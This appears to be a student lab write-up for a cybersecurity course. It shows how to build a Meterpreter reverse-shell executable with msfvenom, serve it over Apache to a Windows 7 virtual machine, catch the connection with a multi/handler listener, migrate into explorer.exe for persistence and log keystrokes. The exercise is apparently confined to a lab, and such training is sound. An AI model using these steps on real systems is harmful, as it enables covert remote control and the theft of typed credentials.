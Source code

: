 [# EX-6.Compromising-windows-using-Metasploit
## Date:06/04/2024
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0f0a4214-f2dc-4996-8926-eb56392bcc9c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7556fc57-da46-4e95-8513-3751c39f7877)



copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/ef0ae3f2-ed72-4581-a5e3-082fc0c1c662)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/06567d9d-bf5a-46f3-8915-09e660fd0ee6)



Check the status of apache2
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6ce0d347-84b4-4782-9e05-3684db0a972a)



Invoke msfconsole:
## OUTPUT:

![320249831-bcbf9308-5c23-49c0-8ece-39f45528f5f8](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7ea33979-d8fd-44a3-af85-5eb17f520e28)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![320249999-1a4990af-3423-40c9-ac8d-e76ae65172ce](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7782e729-27b3-4b25-9182-9f1ed5a34d68)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/039dce90-c240-40e3-a053-479988b6de5a)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![VirtualBox_Windows 7_07_04_2024_09_28_16](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6d0f5ccd-2d68-4896-807f-14936ab7dfc3)

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_Windows 7_07_04_2024_09_56_55](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0a74ac36-8755-414c-9030-2c5d9daba5d8)

On kali give the command exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/e52ec7e8-339e-4c61-97d4-6ded61fa3868)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/2e397df3-935e-4231-9552-628e829a336d)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/b8ba91f2-ec16-43fd-b843-7a5720d84935)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/8347aaba-4690-4922-8388-33f496f36796)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6e719e14-830f-4589-a9de-86ebbba28b65)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
](https://github.com/Andrewvarghese653/Metasploit-for-reconnaissance.git)
